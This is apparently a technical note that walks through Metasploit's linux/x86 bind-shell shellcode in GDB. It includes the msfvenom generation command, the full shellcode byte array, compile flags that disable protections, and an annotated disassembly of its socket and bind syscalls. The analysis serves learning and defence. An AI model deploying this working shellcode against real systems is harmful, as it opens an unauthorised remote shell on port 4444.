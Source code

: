 # MSF Generated payload analysis

This note is about analysis of metasploit framework generated shellcode.

OS: Ubuntu 16.04 32 bit

Debugger: GDB

Plug-in: pwndbg



## linux/x86/shell_bind_tcp

Generate shellcode:

```bash
$ msfvenom -p linux/x86/shell_bind_tcp -f c LHOST=0.0.0.0 LPORT=4444 -b \x00
```

Output (Payload size: 78 bytes):

```c
unsigned char buf[] =
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
"\x5b\x5e\x52\x68\x02\x00\x11\x5c\x6a\x10\x51\x50\x89\xe1\x6a"
"\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0"
"\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f"
"\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0"
"\x0b\xcd\x80";
```

Compile `loader.c` file into `msf_bind_shell`executable:

```bash
$ gcc -m32 -fno-stack-protector -z execstack load.c -o msf_bind_shell
```



**Note:** Before launch gdb, I do recommand to use some handy tools to boost this analysis process, cause constantly typing `disassemble` or `x/gbwx $esp/$eip/...` hunts my finger. For example, gdb pwn dev extensions like [pwndbg](https://github.com/pwndbg/pwndbg) or [gef](https://github.com/hugsy/gef), both were very fine gdb plug-in which can give you a colorful prompt at each breakpoint or interrupt your encontered, containing detailed information like register value, stack layout, etc. In this case, I use pwndbg to help me dissect functonality of msf shellcode.



Launch GDB:

```shell
$ gdb -q ./msf_bind_shell
```



Disassemble main function to locate memory address of shellcode entry point:

```shell
(gdb) disassemble main
```

The entry point is located at the last `call` before function `ret`. In my case, the shellcode entry point is at `0x08048477`.

Then, set breakpoint at this location and run it:

```shell
(gdb) break *0x08048477
```

```shell
(gdb) run
```

Now program will hit this breakpoint, step in to entry shellcode execution:

```shell
(gdb) stepi
```

If you have [pwndbg](https://github.com/pwndbg/pwndbg) plug-in installed before, you will now have this prompt displayed:

![gdb-pwndbg](https://github.com/sparkyvxcx/Shellcode64/blob/master/screenshot/2020-06-15_10-51.png)

Before diving into assembly code, here is a quick rehearsal about each register's functionality when calling syscall, the syscall interface under 32-bit Linux is provided through soft-interrupt `0x80`. The table below describes each register's usage when evoking syscall.

| Register | Usage          |
| -------- | -------------- |
| `EAX`    | Syscall number |
| `EBX`    | Argument 1     |
| `ECX`    | Argument 2     |
| `EDX`    | Argument 3     |
| `ESI`    | Argument 4     |
| `EDI`    | Argument 5     |

Now move on, disassemble this frame by use `disassemble` or `x/43i $esp` command.



Assembly snippet 1:

```assembly
0x0804a040 <+0>:    xor    ebx, ebx ; shellcode entrance
0x0804a042 <+2>:    mul    ebx      ; set both eax, edx to 0x00000000
0x0804a044 <+4>:    push   ebx
0x0804a045 <+5>:    inc    ebx      ; ebx now holds value 1
0x0804a046 <+6>:    push   ebx
0x0804a047 <+7>:    push   0x2
0x0804a049 <+9>:    mov    ecx, esp ; ecx holds stack address which point to value 2
0x0804a04b <+11>:   mov    al, 0x66 ; assign 102 to register al which calling sys_getuid
0x0804a04d <+13>:   int    0x80
```

Above code indicate that first it zero out register`EBX`, so does register `EAX`and register `EDX`, and push `EBX` into the current stack frame, after that it increment 1 for `EBX` and push it into the stack followed another push push `0x2`into the stack again. 



Now the stack frame will look like this:

```assembly
         Address      Stack
                  +------------+
          ....    |    ....    |
                  +------------+
esp —▸ 0xbfffef60 | 0x00000002 |
                  +------------+
       0xbfffef64 | 0x00000001 |
                  +------------+
       0xbfffef68 | 0x00000000 | 
                  +------------+
          ....    |    ....    |
                  +------------+
```

Next instruction move `ESP`'s value to register `ECX` and move `0x66` (decimal 102) into 8-bit sub-register `AL` from `EAX`. Now it's clear that program has `EBX` (Argument 1) holds 1 and `ECX` (argument 2) holds reference to 2 with syscall number 102 which stands for [sys_socketcall](https://github.com/torvalds/linux/blob/master/arch/x86/entry/syscalls/syscall_32.tbl) system call.



pwngdb plug-in had register listed out before execute `int 0x80`:

![sys_socket](https://github.com/sparkyvxcx/Shellcode64/blob/master/screenshot/2020-06-16_22-47.png)

Scoketcall stands for socket system calls, here is definition:

```c
int socketcall(int call, unsigned long *args);
```

And argument description:

> **call** determines which socket function to invoke.  **args** points to a block containing the actual arguments, which are passed through to the appropriate call.

Possible call values are defined as [follow](https://manpages.ubuntu.com/manpages/bionic/man2/socketcall.2.html):

```c
#define SYS_SOCKET      1       /* sys_socket(2) */
#define SYS_BIND        2       /* sys_bind(2) */
#define SYS_CONNECT     3       /* sys_connect(2) */
#define SYS_LISTEN      4       /* sys_listen(2) */
#define SYS_ACCEPT      5       /* sys_accept(2) */
#define SYS_GETSOCKNAME 6       /* sys_getsockname(2) */
#define SYS_GETPEERNAME 7       /* sys_getpeername(2) */
#define SYS_SOCKETPAIR  8       /* sys_socketpair(2) */
#define SYS_SEND        9       /* sys_send(2) */
#define SYS_RECV        10      /* sys_recv(2) */
#define SYS_SENDTO      11      /* sys_sendto(2) */
#define SYS_RECVFROM    12      /* sys_recvfrom(2) */
#define SYS_SHUTDOWN    13      /* sys_shutdown(2) */
#define SYS_SETSOCKOPT  14      /* sys_setsockopt(2) */
#define SYS_GETSOCKOPT  15      /* sys_getsockopt(2) */
#define SYS_SENDMSG     16      /* sys_sendmsg(2) */
#define SYS_RECVMSG     17      /* sys_recvmsg(2) */
```

Therefore, what this snippet actually do is invoking sub-function [socket](https://manpages.ubuntu.com/manpages/bionic/man2/socket.2.html) function, with actual arguments consist of  `0x2`, `0x1` which stands for `AF_INET` and `SOCK_STREAM`. After execution, this syscall return value is `0x3` a file descriptor and stored it in register `EAX`.




Assembly snippet 2:

```assembly
0x0804a04f <+15>:   pop    ebx        ; ebx now holds 0x2
0x0804a050 <+16>:   pop    esi        ; esi now holds 0x1
0x0804a051 <+17>:   push   edx        ; edx holds 0x0, null terminate following content
0x0804a052 <+18>:   push   0x5c110002 ; 0x5c11 stand for 4444, 0x0002 stand for family AF_INET in little endian format
0x0804a057 <+23>:   push   0x10
0x0804a059 <+25>:   push   ecx        ; push previous stack point (now pointing to 0x5c110002) into stak
0x0804a05a <+26>:   push   eax        ; push previous syscall return value into stack to save file descriptor
0x0804a05b <+27>:   mov    ecx,esp    ; save current stack point to ecx 
0x0804a05d <+29>:   push   0x66       ; push 0x66 (102) into stack
0x0804a05f <+31>:   pop    eax        ; pop 0x66 (102) out of stack and store it in register eax
0x0804a060 <+32>:   int    0x80
```

Again, since `EBX` holds `0x2` the actual function got invoked is sub-function [bind](https://manpages.ubuntu.com/manpages/bionic/man2/bind.2.html), and `ECX` holds the address of the other arguments.

Synopsis from man page:

```c
   int bind(int sockfd, const struct sockaddr *addr,
            socklen_t addrlen);
```

Possible return value:

> On  success,  zero is returned.  On error, -1 is returned, and errno is
> set appropriately.

Stack layout:

```assembly
               Address      Stack
                        +------------+
                ....    |    ....    |
                        +------------+
esp (ecx) —▸ 0xbfffef54 | 0x00000003 | ◂— socket file descriptor                      [0]
                        +------------+
             0xbfffef58 | 0xbfffef60 | ◂— memory address of bind address (0x5c110002) [1] —▸ [3]
                        +------------+
             0xbfffef5c | 0x00000010 | ◂— length of address                           [2]
                        +------------+
             0xbfffef60 | 0x5c110002 | ◂— reference by 0xbfffef58                     [3]
                        +------------+
             0xbfffef64 | 0x00000000 |
                        +------------+
                ....    |    ....    |
                        +------------+
```



Before calling syscall:

![sys_bind](https://github.com/sparkyvxcx/Shellcode64/blob/master/screenshot/2020-06-17_10-46.png)



Assembly snippet 3:

```assembly
0x0804a062 <+34>:   mov    DWORD PTR [ecx+0x4],eax
0x0804a065 <+37>:   mov    bl,0x4
0x0804a067 <+39>:   mov    al,0x66
0x0804a069 <+41>:   int    0x80
0x0804a06b <+43>:   inc    ebx
0x0804a06c <+44>:   mov    al,0x66
0x0804a06e <+46>:   int    0x80
0x0804a070 <+48>:   xchg   ebx,eax
0x0804a071 <+49>:   pop    ecx
0x0804a072 <+50>:   push   0x3f
0x0804a074 <+52>:   pop    eax
0x0804a075 <+53>:   int    0x80
0x0804a077 <+55>:   dec    ecx
0x0804a078 <+56>:   jns    0x804a072 <buf+50>
0x0804a07a <+58>:   push   0x68732f2f
0x0804a07f <+63>:   push   0x6e69622f
0x0804a084 <+68>:   mov    ebx,esp
0x0804a086 <+70>:   push   eax
0x0804a087 <+71>:   push   ebx
0x0804a088 <+72>:   mov    ecx,esp
0x0804a08a <+74>:   mov    al,0xb
0x0804a08c <+76>:   int    0x80
0x0804a08e <+78>:   add    BYTE PTR [eax],al
```

